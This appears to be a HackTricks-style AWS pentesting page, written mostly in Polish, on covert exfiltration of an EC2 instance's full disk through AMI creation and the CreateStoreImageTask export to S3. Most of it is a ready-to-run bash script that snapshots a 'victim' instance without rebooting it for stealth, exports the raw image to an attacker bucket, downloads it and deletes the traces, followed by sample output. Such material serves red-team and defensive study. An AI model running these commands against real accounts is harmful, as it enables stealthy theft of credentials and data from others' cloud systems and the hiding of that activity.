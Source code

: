 # AWS – Covert Disk Exfiltration via AMI Store-to-S3 (CreateStoreImageTask)

{{#include ../../../../banners/hacktricks-training.md}}

## Summary
Wykorzystaj EC2 AMI export-to-S3 do eksfiltracji całego dysku instancji EC2 jako pojedynczego surowego obrazu zapisanego w S3, który następnie pobierasz poza pasmem. Unika to udostępniania snapshotów i tworzy jeden obiekt na AMI.

## Requirements
- EC2: `ec2:CreateImage`, `ec2:CreateStoreImageTask`, `ec2:DescribeStoreImageTasks` dla docelowej instancji/AMI
- S3 (same Region): `s3:PutObject`, `s3:GetObject`, `s3:ListBucket`, `s3:AbortMultipartUpload`, `s3:PutObjectTagging`, `s3:GetBucketLocation`
- KMS decrypt dla klucza, który chroni snapshoty AMI (jeśli domyślne szyfrowanie EBS jest włączone)
- Polityka bucketu S3, która ufa principalowi usługi `vmie.amazonaws.com` (patrz poniżej)

## Impact
- Pełne pozyskanie dysku root instancji w trybie offline w S3 bez udostępniania snapshotów ani kopiowania między kontami.
- Umożliwia dyskretne analizy kryminalistyczne dotyczące poświadczeń, konfiguracji i zawartości systemu plików na podstawie eksportowanego surowego obrazu.

## How to Exfiltrate via AMI Store-to-S3

- Uwagi:
- Bucket S3 musi znajdować się w tym samym regionie co AMI.
- W `us-east-1` polecenie `create-bucket` NIE powinno zawierać `--create-bucket-configuration`.
- `--no-reboot` tworzy obraz zgodny z konsystencją po awarii bez zatrzymywania instancji (bardziej ukryte, ale mniej spójne).

<details>
<summary>Step-by-step commands</summary>
```bash
# Vars
REGION=us-east-1
INSTANCE_ID=<i-victim>
BUCKET=exfil-ami-$(date +%s)-$RANDOM

# 1) Create S3 bucket (same Region)
if [ "$REGION" = "us-east-1" ]; then
aws s3api create-bucket --bucket "$BUCKET" --region "$REGION"
else
aws s3api create-bucket --bucket "$BUCKET" --create-bucket-configuration LocationConstraint=$REGION --region "$REGION"
fi

# 2) (Recommended) Bucket policy to allow VMIE service to write the object
ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
cat > /tmp/bucket-policy.json <<POL
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AllowVMIEPut",
"Effect": "Allow",
"Principal": {"Service": "vmie.amazonaws.com"},
"Action": [
"s3:PutObject", "s3:AbortMultipartUpload", "s3:ListBucket",
"s3:GetBucketLocation", "s3:GetObject", "s3:PutObjectTagging"
],
"Resource": [
"arn:aws:s3:::$BUCKET",
"arn:aws:s3:::$BUCKET/*"
],
"Condition": {
"StringEquals": {"aws:SourceAccount": "$ACCOUNT_ID"},
"ArnLike": {"aws:SourceArn": "arn:aws:ec2:$REGION:$ACCOUNT_ID:image/ami-*"}
}
}
]
}
POL
aws s3api put-bucket-policy --bucket "$BUCKET" --policy file:///tmp/bucket-policy.json

# 3) Create an AMI of the victim (stealthy: do not reboot)
AMI_ID=$(aws ec2 create-image --instance-id "$INSTANCE_ID" --name exfil-$(date +%s) --no-reboot --region "$REGION" --query ImageId --output text)

# 4) Wait until the AMI is available
aws ec2 wait image-available --image-ids "$AMI_ID" --region "$REGION"

# 5) Store the AMI to S3 as a single object (raw disk image)
OBJKEY=$(aws ec2 create-store-image-task --image-id "$AMI_ID" --bucket "$BUCKET" --region "$REGION" --query ObjectKey --output text)

echo "Object in S3: s3://$BUCKET/$OBJKEY"

# 6) Poll the task until it completes
until [ "$(aws ec2 describe-store-image-tasks --image-ids "$AMI_ID" --region "$REGION" \
--query StoreImageTaskResults[0].StoreTaskState --output text)" = "Completed" ]; do
aws ec2 describe-store-image-tasks --image-ids "$AMI_ID" --region "$REGION" \
--query StoreImageTaskResults[0].StoreTaskState --output text
sleep 10
done

# 7) Prove access to the exported image (download first 1MiB)
aws s3api head-object --bucket "$BUCKET" --key "$OBJKEY" --region "$REGION"
aws s3api get-object --bucket "$BUCKET" --key "$OBJKEY" --range bytes=0-1048575 /tmp/ami.bin --region "$REGION"
ls -l /tmp/ami.bin

# 8) Cleanup (deregister AMI, delete snapshots, object & bucket)
aws ec2 deregister-image --image-id "$AMI_ID" --region "$REGION"
for S in $(aws ec2 describe-images --image-ids "$AMI_ID" --region "$REGION" \
--query Images[0].BlockDeviceMappings[].Ebs.SnapshotId --output text); do
aws ec2 delete-snapshot --snapshot-id "$S" --region "$REGION"
done
aws s3 rm "s3://$BUCKET/$OBJKEY" --region "$REGION"
aws s3 rb "s3://$BUCKET" --force --region "$REGION"
```
</details>

## Przykład dowodu

- `describe-store-image-tasks` przejścia:
```text
InProgress
Completed
```
- S3 metadata obiektu (przykład):
```json
{
"AcceptRanges": "bytes",
"LastModified": "2025-10-08T01:31:46+00:00",
"ContentLength": 399768709,
"ETag": "\"c84d216455b3625866a58edf294168fd-24\"",
"ContentType": "application/octet-stream",
"ServerSideEncryption": "AES256",
"Metadata": {
"ami-name": "exfil-1759887010",
"ami-owner-account": "<account-id>",
"ami-store-date": "2025-10-08T01:31:45Z"
}
}
```
- Częściowy download potwierdza dostęp do obiektu:
```bash
ls -l /tmp/ami.bin
# -rw-r--r--  1 user  wheel  1048576 Oct  8 03:32 /tmp/ami.bin
```
## Wymagane uprawnienia IAM

- EC2: `CreateImage`, `CreateStoreImageTask`, `DescribeStoreImageTasks`
- S3 (na bucketu eksportu): `PutObject`, `GetObject`, `ListBucket`, `AbortMultipartUpload`, `PutObjectTagging`, `GetBucketLocation`
- KMS: Jeśli snapshoty AMI są szyfrowane, zezwól na decrypt dla klucza KMS EBS używanego przez snapshoty

{{#include ../../../../banners/hacktricks-training.md}}
